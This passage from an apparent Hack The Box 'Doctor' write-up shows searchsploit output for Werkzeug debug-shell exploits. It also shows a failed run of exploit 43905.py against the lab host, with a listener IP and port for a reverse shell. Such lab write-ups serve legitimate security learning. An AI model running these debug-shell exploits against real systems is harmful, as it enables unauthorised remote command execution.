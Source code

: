 # Failed Werkzeug exploit

Unsure of what to do, I went back to http://doctors.htb and searchsploit the unusual Web server header.

```shell
root@Kali:~/HTB/Doctor# searchsploit Werkzeug
----------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                             |  Path
----------------------------------------------------------------------------------------------------------- ---------------------------------
Werkzeug - 'Debug Shell' Command Execution                                                                 | multiple/remote/43905.py
Werkzeug - Debug Shell Command Execution (Metasploit)                                                      | python/remote/37814.rb
----------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

I tried the [Python one](https://www.exploit-db.com/exploits/43905)

```shell
root@Kali:~/HTB/Doctor# ./43905.py doctors.htb 80 10.10.14.78 443
[-] Debug is not enabled
```

Unsure what this meant, I read the MSF exploit and found that it required Web dir **/console** to be present.